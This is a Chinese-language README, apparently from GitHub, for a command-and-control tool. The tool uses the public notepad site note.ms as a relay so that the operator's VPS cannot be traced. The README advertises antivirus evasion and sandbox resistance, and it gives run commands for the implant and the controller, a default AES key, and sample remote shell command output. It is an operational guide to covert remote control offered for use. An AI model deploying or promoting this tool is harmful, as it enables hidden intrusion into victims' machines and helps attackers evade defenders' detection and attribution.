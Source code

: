 # 分享个免杀-防止VPS被溯源-无VPS也可用的C2小工具



## 0x01工具介绍

- 该工具利用公开笔记本网站作为信息传递的中间服务器，能够让蓝队无法追溯到VPS的位置。
- 该工具未进行免杀处理，也未执行shell code，仅仅使用了go的os/exec包进行命令执行，并对其采用AES加密。
- 工具能够有效避免被大多数安全设备及态势感知系统发现，同时在多个杀毒软件中免杀。
- 在红队攻防活动中，作者针对需要隐藏C2回连地址及流量的需求，创造了该工具。

被控端微步在线扫描截图

![image-20230307201012383](images/image-20230307201012383.png)

![image-20230307201121221](images/image-20230307201121221.png)





1. 优点:
    - 具有免杀功能  
    - 可有效防止被溯源 
    - 实现了AES加密来保证信息的安全 
    - 对隐藏位置进行了深度优化 
    - 能够抵抗沙箱检测

2. 缺点:
    - 返回命令结果的速度较慢 
    - 功能较少（但敏感功能较少也降低了被检测的风险）



## 0x02 工具原理

1. 使用公开笔记网站 `https://note.ms/` 做中间服务器。uri `/ba`为一个笔记的地址，每个uri都对应一个笔记。

![image-20230307175854007](免杀-防止VPS被溯源-无VPS也可用的C2小工具.assets/image-20230307175854007.png)

2. 通过笔记本的读写来实现作为被控端和控制端之间的流量传递载体。具体的流程如下图所示：



![免杀-防止VPS被溯源-无VPS也可用的C2小工具.drawio](免杀-防止VPS被溯源-无VPS也可用的C2小工具.assets/免杀-防止VPS被溯源-无VPS也可用的C2小工具.drawio.png)







## 0x03工具利用

`client`为控制端 

`server`为被控端

### 被控端 `server`

被控端运行以下命令：

```bash
./server --key notekey --admin ocis
```

其中有两个参数，为了提高安全性，建议修改这两个参数：

- `key`：为AES加密的密钥，可自定义密钥。默认密钥为`zhu1234554321zhu`
- `admin`：控制的uri地址，默认为`ocis`

### 控制端 `client`

#### 1.控制端刷新在线主机列表

```
username$ ./client
0:主机名:[penetration]  note地址:[BpLnfgDsc3WD9F3qNfHK6a95jjJkwz]       notekey地址:[zhu1234554321zhu]


1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)
```

#### 2.控制端执行命令



```
username$ ./client
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)


2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.更新别控端列表(需等待30秒)


2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```

## 0x04工具信息

工具地址:https://github.com/xiao-zhu-zhu/noterce

作者联系方式:`230300272@qq.com`

